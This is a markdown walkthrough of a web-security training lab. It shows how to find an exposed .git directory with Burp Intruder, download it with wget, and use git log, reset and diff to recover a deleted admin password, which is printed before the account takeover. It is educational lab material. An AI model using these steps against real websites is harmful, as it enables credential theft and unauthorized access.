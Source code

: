 ### Information disclosure in version control history
<i>Please note that during the explanation my Lab ID will change, so there will be some discrepancy between the screen-shots and commands</i><br>
To follow the solution you will need to have installed:
+ wget
+ git CMD

#### Lab
The lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

First of all let's to brute-force the application directories structure. To do that we can use Intruder. Set up the position (1) in the request as follows (choose Sniper as attack). The placeholder (3) will be replace with the values of our payload 
<br>![img](./img/100.png)<br>

Then in the payload(1) set the type as Simple list (2) and add the values for the sub directories to test (3, <i>please note that here I have used a limited wordlist to speed up the process</i>). Be sure to uncheck the URL encoding characters option (4) before to execute the attack.
<br>![img](./img/101.png)<br>

After a while we can see that the <b>.git</b> has been found. 
<br>![img](./img/102.png)<br>

Just to recall this folder contains all information that is necessary for the project and all information relating commits. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code. Very interesting, first we have open a git CMD, then we can proceed to downlad the whole folder using wget:
```
wget -r https://0aae000604fffb3fc15be60b0075004c.web-security-academy.net/.git
```
Now enter into the downloaded directory
```
cd 0aae000604fffb3fc15be60b0075004c.web-security-academy.net
```
then we can check git log
```
>git log
commit 382d921b56e84ec70bb7cab25e444e98d4c02350 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 68eb0e4aabbe8db5654194dfc68db2f1430f4ee5
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
We can see from the above command that the admin passord was removed from the config file. Now we can check the status 
```
>git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php

no changes added to commit (use "git add" and/or "git commit -a")
```
Here we can see that the changes have not yet been added to the staging area, we can try to revert the last commit using reset command, then check the status again
```
>git reset --soft HEAD~1

>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   admin.conf

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
Now we can see that there are pending modification in the admin.conf file, as suggested we can restore the original modification of the file issuing the following command
```
>git restore --staged admin.conf
>REM then we can use the diff command to get the deleted information in the admin.conf file
>git diff
diff --git a/admin.conf b/admin.conf
deleted file mode 100644
index 3ac915d..0000000
--- a/admin.conf
+++ /dev/null
@@ -1 +0,0 @@
-ADMIN_PASSWORD=jw8ut5ca18vqbmvg75ij
diff --git a/admin_panel.php b/admin_panel.php
deleted file mode 100644
index 8944e3b..0000000
--- a/admin_panel.php
+++ /dev/null
@@ -1 +0,0 @@
-<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
\ No newline at end of file
```
Knowing the administrator password we can proceed to login and delete carlos
#### References
